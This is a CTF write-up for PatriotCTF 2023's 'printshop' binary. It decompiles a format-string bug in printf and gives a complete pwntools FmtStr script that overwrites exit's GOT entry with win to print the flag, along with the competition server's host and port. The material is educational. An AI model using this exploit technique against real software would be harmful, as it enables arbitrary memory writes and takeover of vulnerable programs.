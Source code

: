 ```yaml
---
title: printshop - pwn - PatriotCTF 2023
slug: printshop
published: 2023-09-29
tags: [pwn, format string, pwntools, radare2, CTF]
category: CTF writeups
description: Automated Format String Exploitation using pwntools
---
```


## About the challenge

This binary was for the challenge printshop in PatriotCTF 2023.


[Link to binary](/files/printshop/printshop)

## Initial Exploration

We were only given the binary and no other libraries.

```
$ pwn checksec printshop
[*] '/ctfs/patriot-ctf/printshop/printshop'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## Reversing the binary

Decompiling the main function in radare2 (with r2ghidra), we get this:

```c
void main noreturn (void)

{
    int64_t in_FS_OFFSET;
    ulong format;
    ulong var_8h;
    
    var_8h = *(in_FS_OFFSET + 0x28);
    sym.imp.puts("\nWelcome to the Print Shop!");
    sym.imp.printf("\nWhat would you like to print? >> ");
    sym.imp.fgets(&format, 100, _reloc.stdin);
    sym.imp.puts("\nThank you for your buisness!\n");
    sym.imp.printf(&format);
    // WARNING: Subroutine does not return
    sym.imp.exit(0);
}
```

There is also another function that prints us the flag:

```c
void sym.win(void)

{
    int64_t iVar1;
    char c;
    ulong stream;

    iVar1 = sym.imp.fopen("flag.txt", 0x402008);
    if (iVar1 == 0) {
        sym.imp.puts("Flag is missing, contact an organizer.");
        sym.imp.fflush(_reloc.stdout);
    // WARNING: Subroutine does not return
        sym.imp.exit(1);
    }
    c = sym.imp.fgetc(iVar1);
    while (c != -1) {
        sym.imp.putchar(c);
        sym.imp.fflush(_reloc.stdout);
        c = sym.imp.fgetc();
    }
    sym.imp.fclose(iVar1);
    return;
}
```

## Identifying the vulnerability

In this binary, there is a vulnerability in the main function: `sym.imp.printf(&format)`, which is a format string vulnerability. This is because format can be modified by user input.

## Exploitation

### Steps

1. Know how to communicate to the program, so we can reach the vulnerable `printf` call
2. Figure out how to trigger the format string vuln
3. Find the correct offset that allows us to have enough arbitrary write in the memory segment we want to overwrite.
4. Plan a GOT overwrite so `exit` points to `win`.
5. Craft the payload that uses the correct offsets and correct format specifiers to do the GOT overwrite.
6. When it runs, the `printf` should trigger GOT overwrite, and once `exit` is called, it should print the contents of `flag.txt`.

### How do we communicate to the program?

To exploit this, we can use the `pwnlib.fmtstr` module from pwntools. We can define how the payload will be sent, so we can automate the creation of the payload later, while our  following the input/output sequence the vulnerable program expects.

```python
from pwn import *

elf = context.binary = ELF('./printshop')

def get_io():
    if args.REMOTE:
        # nc chal.pctf.competitivecyber.club 7997
        io = remote('chal.pctf.competitivecyber.club', 7997)
    else:
        io = process(elf.path)
    return io

# format string exploit helper
def send_payload(payload):
    print('payload: ', payload)
    print('payload length: ', len(payload))
    io = get_io()
    io.sendlineafter('>> ', payload)
    ret = io.recvall()
    # just find the flag in the output and print it if it's there
    if ret is not None and b'pctf' in ret:
        print(ret)
    return ret
```

## How do we get to the `win` function?

The vulnerable `printf()` call, the program immediately exits by calling `sym.imp.exit(0)`. We can do a GOT overwrite where we change the function pointed at the GOT for the calls to `exit()` and make it point to `win()` instead. If we do this, when `sym.imp.exit(0)` is called, the program jumps to `win()` instead of the implementation of `exit` provided by libc.

Because we have set up how we send the payload, we can just automate the exploit with the following code:

```python
sheeesh = FmtStr(execute_fmt=send_payload)
sheeesh.write(elf.got['exit'], elf.sym['win'])
sheeesh.execute_writes()
```
